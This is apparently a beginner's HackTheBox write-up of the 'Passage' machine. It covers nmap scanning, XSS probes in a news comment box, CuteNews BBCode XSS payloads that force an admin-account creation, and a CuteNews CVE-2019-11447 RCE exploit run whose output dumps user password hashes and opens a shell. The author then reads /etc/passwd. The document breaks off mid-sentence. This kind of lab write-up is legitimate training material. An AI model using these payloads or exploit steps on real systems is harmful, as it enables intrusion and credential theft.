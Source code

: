 ]# Passage

This machine is currently active, and is my first attempt at HTB.  Its IP address is `10.10.10.206`.

After pinging it, I have run
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.206
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 18:37 EST
Nmap scan report for 10.10.10.206
Host is up (0.70s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.67 seconds
```

From this, we see that port `80` is open in http.  I edited `/etc/hosts` so that it now looks like this:
```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.206    passage

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

You can see where I have added `passage`; the machine we are trying to hack.

Now going into the web browser and typing `http://passage:80`, we get a website!  Horay!

This page is a news page.  The only news article here that is not in Latin is named
```
**Implemented Fail2Ban**
```

I click on this and this is the body:

```
Due to unusally large amounts of traffic, we have implementated Fail2Ban on our website. Let it be known that excessive access to our server will be met with a two minute ban on your IP Address. While we do not wish to lock out our legitimate users, this decision is necessary in order to ensure a safe viewing experience. Please proceed with caution as you browse through our extensive news selection. View & Comment 
```

There is a comments box.  My very first thought was SQL Injections, but then I was reminded of PHP, so I tried commenting something using PHP.  Nothing happened (though the comment did go through).  Then I tried JavaScript, as one of the comments wrote 
```html
<script>alert(5)</script>
```

However, after attempting to write
```html
<script>console.log("Test")</script>
```
The page broke, and I had to go back to the main page, at which point both comments previously there were gone.  I cannot recall what the first comment had said.  I have no idea why 

I also noted that the admin who posted this has the link to an email address: `nadav@passave.htb`.  This might, I think, come in handy with the other open port: `ssh`.

I came to a realisation: why can't I simply google what I want.  I searched `comments section exploit` but didn't find much.  However, after literally searching `cutenews exploit` and finding [this](https://www.exploit-db.com/exploits/10002), I tried the following:
```
[link=javascript://%0adocument.write('<script>alert(/xss/)</script>')]funny pictures[/link]
```

[link=javascript://%0adocument.write('<script>window.open("http://passage/index.php?regusername=a&regpassword=a&regnickname=a&regemail=a%40a.com&reglevel=1&action=adduser&mod=editusers","_self")</script>')]funny pictures[/link]

[Project options > Misc > Embedded Browser > Allow the embedded browser to run without a sandbox](https://hooya0011.tistory.com/84)

After trying a lot of those exploits, I appended my search with `git`, and found [this repo](https://github.com/CRFSlick/CVE-2019-11447-POC), which I cloned.  I then made a CuteNews account for Passage by putting `/CuteNews/` before `index.php`, and logged into CuteNews using this python script, and uploaded the evil image (`sad.gif`).  This gave me a reverse shell, but it wasn't quite what I wanted; every command I ran gave me a bunch of HTML.  I needed to find a similar exploit, but this one wasn't working.

I went back to my Google search and found [this](https://github.com/mt-code/CVE-2019-11447).  I ran this, which uploads a php shell file as my avatar.  After that was successful, I must admit I was a little lost: how do I now use this exploit?  I went back to my refined search once again and found [this](https://raw.githubusercontent.com/musyoka101/CuteNews_2.1.2_RCE_exploit/master/exploit.py) exploit script, which I then ran and put the URL in, as well as my user credentials, and voila&emdash;: a reverse shell!

```
┌──(kali㉿kali)-[~/testing]
└─$ python3 exploit.py                                                                                                                                                                             1 ⨯ 2 ⚙



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

Enter the URL> http://passage:80
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

================================================================

================================================================
Possible users
================================================================
kim@example.com
paul@passage.htb
sid@example.com
nadav@passage.htb
================================================================

Do You Have a valid credential: [yes] or [no] ==> yes

[*] Please enter the credentials below
    Username ==> Christopher Tatlock
    Password ==> W@ci5M%QS^Kr8x3ov7!7
[+] Login was successfull

================================================================
Sending Payload
================================================================
signature_key: fad251d607c5ac7ebd52ada5f4c48144-Christopher Tatlock
signature_dsi: 7d4328bd3891236ddce1cb524aeda03b
logged in user: Christopher Tatlock

============================
Dropping to a SHELL
============================

command >
```

I ran `ls /home/` and saw the users `nadav` (that admin we noted earlier) and `paul`; neat!  I recall that there is an `ssh` port open, so I try to make a user for myself (I have done this before; it is trivial for Linux users).  The only tricky thing is that this shell is very minimal and only has `stdout`, I believe.  To get around this, I might show everything as stdout by
```bash
<cmd> 2>&1
```

```bash
command > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```

We see `paul` and `nadav` down there, as users already, but we do not have access to the password.  We try to add our own user:
```bash
command > sudo useradd christopher 2>&1
sudo: no tty present and no askpass program specified
```
But it does not register our terminal very well (as the shell is minimal/bad).

---

One big take-home message from this&emdash; my first HTB task&emdash; is: just Google!  Unless you think you have a great idea what to try, if you are only starting out